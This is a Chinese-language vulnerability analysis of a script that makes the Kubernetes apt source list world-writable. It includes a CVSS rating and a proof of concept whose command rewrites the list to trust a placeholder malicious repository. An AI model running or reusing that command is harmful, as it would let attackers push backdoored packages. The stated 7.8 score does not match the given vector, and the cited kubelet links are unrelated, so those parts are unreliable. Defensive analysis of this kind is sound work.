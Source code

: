 ### 风险分析

在您的脚本中，有以下命令：

```bash
sudo chmod 666 /etc/apt/sources.list.d/kubernetes.list
```

这条命令将 `/etc/apt/sources.list.d/kubernetes.list` 文件的权限设置为全局可读写（即任何用户都可以读取和修改该文件）。这会导致以下安全问题：

1. **非特权用户可篡改软件源**：任何系统上的用户都可以修改 Kubernetes 的软件源配置，指向恶意的仓库或包。

2. **安装恶意软件的风险**：如果软件源被篡改，系统管理员在执行 `sudo apt-get update` 和 `sudo apt-get install` 时，可能会从恶意源安装被植入后门或恶意代码的软件。

3. **系统完整性受损**：软件源的篡改可能导致系统软件更新被劫持，影响系统的稳定性和安全性。

### 满足风险判断标准

1. **该风险能被攻击者利用**：是的，攻击者（本地非特权用户）可以利用此权限篡改软件源，诱使管理员安装恶意软件。

2. **该风险可能成为一个漏洞，并被分配 CVE 编号，使用 CVSS 3.1 评分标准打分，结果在 High 以上**：

   - **攻击向量（AV）**：本地（L）
   - **攻击复杂度（AC）**：低（L）
   - **权限要求（PR）**：低（L）
   - **用户交互（UI）**：需要（R）
   - **影响范围（S）**：未改变（U）
   - **机密性影响（C）**：高（H）
   - **完整性影响（I）**：高（H）
   - **可用性影响（A）**：高（H）

   综合评分在 **7.8（High）** 以上，符合高危漏洞标准。

### 可能的影响

- **权限提升**：攻击者可以诱导管理员安装恶意软件，实现权限提升。
- **数据泄露或破坏**：恶意软件可能窃取、篡改或破坏系统数据。
- **持久化控制**：攻击者可能在系统中建立持久化的后门访问。

### 概念验证（Proof of Concept）

1. **攻击者查看文件权限**：

   ```bash
   ls -l /etc/apt/sources.list.d/kubernetes.list
   ```

   输出：

   ```
   -rw-rw-rw- 1 root root 1234 日期 /etc/apt/sources.list.d/kubernetes.list
   ```

2. **攻击者篡改软件源**：

   ```bash
   echo 'deb [trusted=yes] http://恶意地址/ kubernetes-xenial main' > /etc/apt/sources.list.d/kubernetes.list
   ```


[1]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/kuberuntime/kuberuntime_manager.go#L1325
[2]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/pod_workers.go#L1484